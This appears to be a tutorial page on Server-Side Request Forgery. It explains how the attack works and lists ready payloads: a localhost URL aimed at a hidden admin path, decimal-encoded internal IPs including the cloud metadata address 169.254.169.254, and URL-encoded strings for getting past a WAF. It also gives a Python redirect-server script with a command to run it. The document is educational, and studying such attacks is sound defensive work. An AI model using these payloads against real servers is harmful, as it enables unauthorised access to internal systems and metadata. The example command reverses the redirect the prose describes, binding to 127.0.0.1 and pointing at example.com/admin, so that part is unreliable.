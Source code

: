 ```yaml
---
description: 127.0.0.1
---
```


# Server-Side Request Forgery

Server-Side Request Forgery (SSRF) is an exploit whivh makes the server that the website is hosted on to do internal requests. The exploitation of the vulnerability allows for inducing of server-side requests to the backend, which can be used to read sensitive internal files or make changes.

## How it Works

For example, suppose that a website has a URL requesting functionality and a hidden directory under the `/admin` directory. The hidden directory has a WAF which prevents external IP addresses from accessing it. We can access the hidden directory using this:

```bash
http://example.com?url=http://127.0.0.1/admin
```

`127.0.0.1` refers to the localhost, which is a **logical IP address** that refers to the computer itself. It's otherwise known as the loopback interface, and all computers have some form of IP address referring to itself.

Generally, websites that parse URL's or send requests to the backend cacn be exploited through modifying of HTTP requests. Alternatively, it involves bypassing WAFs using modified HTTP headers, like `X-Forwarded-For`.

## Exploitation

SSRF has a wide range of payloads.

Using decimal IPs:

```bash
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/  = http://169.254.169.254
```

Using URL-encoded text to bypass WAF:

```bash
http://127.0.0.1/%61dmin
http://127.0.0.1/%2561dmin
```

Redirects can be used to bypass a website. How this would work is our machine would use some form of redirect script, which would open a listening port that would receive a HTTP request and redirect it back to the localhost. This can be used to spoof a request, and allow for resources that would not otherwise be accessible to be read:

```bash
python2 redirect.py --port 80 --ip 127.0.0.1 http://example.com/admin
```

```python
#!/usr/bin/env python
"""
Simple HTTP URL redirector
Shreyas Cholia 10/01/2015
usage: redirect.py [-h] [--port PORT] [--ip IP] redirect_url
HTTP redirect server
positional arguments:
  redirect_url
optional arguments:
  -h, --help            show this help message and exit
  --port PORT, -p PORT  port to listen on
  --ip IP, -i IP        host interface to listen on
"""
import SimpleHTTPServer
import SocketServer
import sys
import argparse

def redirect_handler_factory(url):
    """
    Returns a request handler class that redirects to supplied `url`
    """
    class RedirectHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
       def do_GET(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

    return RedirectHandler
           
def main():

    parser = argparse.ArgumentParser(description='HTTP redirect server')

    parser.add_argument('--port', '-p', action="store", type=int, default=80, help='port to listen on')
    parser.add_argument('--ip', '-i', action="store", default="", help='host interface to listen on')
    parser.add_argument('redirect_url', action="store")

    myargs = parser.parse_args()
    
    redirect_url = myargs.redirect_url
    port = myargs.port
    host = myargs.ip

    redirectHandler = redirect_handler_factory(redirect_url)
    
    handler = SocketServer.TCPServer((host, port), redirectHandler)
    print("serving at port %s" % port)
    handler.serve_forever()

if __name__ == "__main__":
    main()
```

